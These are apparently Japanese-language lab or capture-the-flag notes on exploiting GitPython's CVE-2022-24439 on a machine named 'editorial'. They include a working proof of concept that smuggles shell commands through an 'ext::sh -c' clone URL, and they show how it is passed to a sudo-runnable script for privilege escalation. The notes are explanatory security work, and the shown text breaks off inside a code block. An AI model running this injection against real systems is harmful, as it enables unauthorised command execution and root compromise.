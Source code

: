 GitPtython 3.1.29の脆弱性を調べると、CVE-2022-24439が見つかった。
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
この脆弱性は、ユーザー入力の検証が不適切であるために、悪意のあるリモート URL を `clone` コマンドに挿入できる 
この脆弱性が悪用可能なのは、ライブラリが外部の `git` コマンドを呼び出す際に、入力引数を十分にサニタイズしていない ためです。  
ただし、この問題は `ext` トランスポートプロトコルが有効になっている場合にのみ発生します。
PoCを試す。

1. **`Repo.init('', bare=True)`**
    
    - 空の Git リポジトリを作成します。
    - `bare=True` にすると、作業ディレクトリを持たないリポジトリ（通常の Git リポジトリとは異なり、`working tree` がない）になります。
2. **`clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])`**
    
    - `clone_from` は、通常はリモートリポジトリ（例: `https://github.com/user/repo.git`）をクローンするための関数。
    - しかし、`ext::` プロトコルを使用すると、Git の `shell` 経由で任意のコマンドを実行できる。
    - `sh -c touch% /tmp/pwned` は、`touch /tmp/pwned` を実行し、`/tmp/` に `pwned` という空のファイルを作成する。
3. **`multi_options=["-c protocol.ext.allow=always"]`**
    
    - 通常、Git は `ext::` プロトコルの使用を制限しているため、明示的に `-c protocol.ext.allow=always` を指定して有効化している。

```bash
from git import Repo

# Git の bare リポジトリを作成
r = Repo.init('', bare=True)

# 悪意のあるリモートリポジトリをクローン
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])

```


そういえば、PoCを試そうとおもたんだけど、今回は、sudoで実行できるファイルの書き込み権限がないので、このファイルに合わせた形で引数を作ってsudoで実行する必要がある。
- 所有者（User, u） → `rwx`
    - 読み取り（r）
    - 書き込み（w）
    - 実行（x）
    - つまり、何でもできる（フルアクセス）
- グループ（Group, g） → `r-x`
    - 読み取り（r）
    - 実行（x）
    - 書き込み（w）がない → 編集できないが、実行はできる
- その他のユーザー（Other, o）→ `---`
    - アクセス権なし → 他のユーザーは何もできない
    - 
```bash
prod@editorial:/home/dev/apps$ ls -l /opt/internal_apps/clone_changes/clone_prod_change.py
-rwxr-x--- 1 root prod 256 Jun  4  2024 /opt/internal_apps/clone_changes/clone_prod_change.py
```

`/opt/internal_apps/clone_changes/clone_prod_change.py`の中身
 
 
 `ext::` プロトコルの脆弱性による RCE(CVE-2022-24439)
- `clone_from()` で `multi_options=["-c protocol.ext.allow=always"]` を指定しているため、`ext::` プロトコルが有効 になっている
- これにより、以下のようにして リモートコード実行（RCE）が可能：
    `python3 clone_prod_change.py 'ext::sh -c "touch /tmp/hacked"'`
    - これを実行すると、システム上に `/tmp/hacked` というファイルが作成される（攻撃成功）
    - 本来クローンすべき URL の代わりに、シェルコマンドを実行させることができる
```bash
#!/usr/bin/python3

import os
import sys
from git import Repo

# 作業ディレクトリを変更
```